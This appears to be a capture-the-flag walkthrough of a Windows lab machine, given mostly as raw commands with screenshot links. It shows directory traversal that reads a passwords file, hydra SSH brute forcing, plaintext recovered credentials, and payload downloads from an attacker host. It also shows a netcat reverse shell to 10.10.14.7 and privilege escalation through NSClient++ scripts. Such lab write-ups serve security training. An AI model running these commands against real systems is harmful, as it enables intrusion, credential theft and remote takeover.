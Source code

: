 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.184
ftp 10.10.10.184
anonymous:anonymous
http://10.10.10.184
nvms 1000 exploit
https://www.exploit-db.com/exploits/48311
http://10.10.10.184/Pages/login.htm
/../../../../../../../../../../../../windows/win.ini
/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
hydra -v -V -u -L users.txt -P passwords.txt -t 10 -u 10.10.10.184 ssh
ssh Nadine@10.10.10.184
Powershell
whoami /priv
searchsploit 'NSClient++'
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
https://www.exploit-db.com/exploits/46802
cd "C:\Program Files\NSClient++\“
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
https://127.0.0.1:8443
\programdata\nc.exe 10.10.14.7 443 -e cmd
cd C:\programdata\
powershell wget http://10.10.14.7/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.7/shell.bat -outfile shell.bat
/settings/external scripts/scripts/df
Command
C:\programdata\shell.bat
/settings/scheduler/schedules/df_run
Interval ; 10s
Command ; df
rlwrap nc -lnvp 443
Trigger with Module - CheckExternalScripts
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.10.184
```
![image](https://github.com/user-attachments/assets/a313103a-0e86-4faa-8270-9879e148cc2e)

```
ftp 10.10.10.184
anonymous:anonymous
```
![image](https://github.com/user-attachments/assets/0ff21dc1-81f9-4f12-bee4-635f1a249ade)

![image](https://github.com/user-attachments/assets/f43fd30d-1e25-4c7b-86e7-464d674ea2ed)

```
http://10.10.10.184
```
![image](https://github.com/user-attachments/assets/f6f1c705-0907-4773-8db1-84e9ef8c1649)

```
nvms 1000 exploit
https://www.exploit-db.com/exploits/48311
```
![image](https://github.com/user-attachments/assets/f1710fe7-fdf5-40db-912f-6a911580e317)

![image](https://github.com/user-attachments/assets/c04dfb6a-a1bb-4a8c-964b-5cc4b7e7fee5)

```
http://10.10.10.184/Pages/login.htm
/../../../../../../../../../../../../windows/win.ini
```
![image](https://github.com/user-attachments/assets/0d9f6310-4342-4b69-a5a1-8f1eec0b20de)

![image](https://github.com/user-attachments/assets/b489f478-226d-4977-a643-207796c8fa52)

```
/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
![image](https://github.com/user-attachments/assets/f9cf7130-e0dc-4694-9997-a0d9b03b350f)

```
hydra -v -V -u -L users.txt -P passwords.txt -t 10 -u 10.10.10.184 ssh
```
![image](https://github.com/user-attachments/assets/f17637bf-6d86-4854-a606-d7df15feae19)

![image](https://github.com/user-attachments/assets/3e6601e3-5717-42c0-808b-d9bb2fb60085)

```
ssh Nadine@10.10.10.184
L1k3B1gBut7s@W0rk
```
![image](https://github.com/user-attachments/assets/c149b9a4-6691-4919-8a4a-45145a226671)

```
Powershell
whoami /priv
```
![image](https://github.com/user-attachments/assets/daa65e49-b655-46e7-97c7-491e927bd449)

```
searchsploit 'NSClient++'
```
![image](https://github.com/user-attachments/assets/62cd7886-2c6b-4f61-a0bf-2416204811e0)

```
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
```
![image](https://github.com/user-attachments/assets/6f0008e4-794f-4bb3-a9f0-c23c5364cee0)

```
https://www.exploit-db.com/exploits/46802
```
![image](https://github.com/user-attachments/assets/d97fcdb8-7f80-4c7d-9679-ad5618af7495)

```
cd "C:\Program Files\NSClient++\“
ew2x6SsGTxjRwXOT
```
![image](https://github.com/user-attachments/assets/017d2e31-134e-4d0f-94f8-d0406f14dd40)

```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
https://127.0.0.1:8443
```
![image](https://github.com/user-attachments/assets/41f170fd-d6b7-42bf-b5e7-dd5388417da5)

![image](https://github.com/user-attachments/assets/f6f02615-74d2-43c6-b446-07f2cd00f4d2)

```
\programdata\nc.exe 10.10.14.7 443 -e cmd
cd C:\programdata\
powershell wget http://10.10.14.7/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.7/shell.bat -outfile shell.bat
```
![image](https://github.com/user-attachments/assets/5e3f3c3e-471a-4802-a430-15906f904a7b)

![image](https://github.com/user-attachments/assets/d7796056-a14b-478e-b774-62dcbd600a69)

```
/settings/external scripts/scripts/df
Command
C:\programdata\shell.bat
```
![image](https://github.com/user-attachments/assets/11e195a2-8a1a-4ee5-a50c-0344f3a8b726)


```
/settings/scheduler/schedules/df_run
Interval
10s
Command
df
```
![image](https://github.com/user-attachments/assets/ea4e2b44-7b07-4168-a276-a2415e865b7f)

![image](https://github.com/user-attachments/assets/135208e6-7467-40bd-b1ec-0325e52e077d)

![image](https://github.com/user-attachments/assets/f0b058aa-a573-44bd-9426-3ae7c18ae066)

```
rlwrap nc -lnvp 443
Trigger with Module - CheckExternalScripts
```
![image](https://github.com/user-attachments/assets/781c07d4-dde6-46e9-8f0d-cddb88a83974)

